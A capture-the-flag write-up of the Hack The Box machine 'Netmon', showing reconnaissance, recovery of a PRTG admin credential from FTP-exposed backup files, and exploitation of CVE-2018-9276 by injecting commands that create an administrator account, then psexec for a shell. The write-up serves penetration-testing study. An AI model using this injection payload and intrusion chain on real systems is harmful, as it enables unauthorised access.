








# Netmon Writeup - by Thammanant Thamtaranon  
- Netmon is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -p- 10.10.10.152
```
  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 80 (HTTP)  
  - 135 (MSRPC)  
  - 139 (NETBIOS)  
  - 445 (SMB)  
  - 5985 (HTTP)

## Scanning & Enumeration  
- We then connected to FTP:  
```bash
ftp 10.10.10.152
```
  
- We navigated to the Users directory. Access to the Administrator directory was denied, but in the Public Desktop we found `user.txt`, capturing the user flag.  
- We navigated to `ProgramData\Paessler\PRTG Network Monitor` and downloaded all three configuration files.  
  
- In `PRTG Configuration.old.bak` we found credentials.  
  
- Using the credentials, we attempted login at `http://10.10.10.152` as `prtgadmin:PrTg@dmin2018`. The password was incorrect, so we iterated through 2019, 2020, etc., and successfully logged in at 2019.  
  
- The PRTG version was identified as `18.1.37.13946`. We searched for known CVEs for this version.

## Exploitation  
- We found **CVE-2018-9276**, an OS command injection vulnerability.  
- This vulnerability allows an attacker with administrative access to the PRTG web console to execute arbitrary commands during sensor or notification management tasks.  
- We created a new notification under "Execute Program" and added the following parameter:  `;net user tester Password123! /add;net localgroup administrators tester /add` 
- After saving and sending a test notification, we verified the command execution in the logs.  
  
- We then connected to SMB as tester:
```bash
smbclient -L //10.10.10.152 -U tester
```
  
- Next, we used `impacket-psexec` to spawn a shell on the Windows host:  
```bash
impacket-psexec tester@10.10.10.152
```
  
- Finally, we navigated to `Users/Administrator/Desktop` and grabbed the root flag.
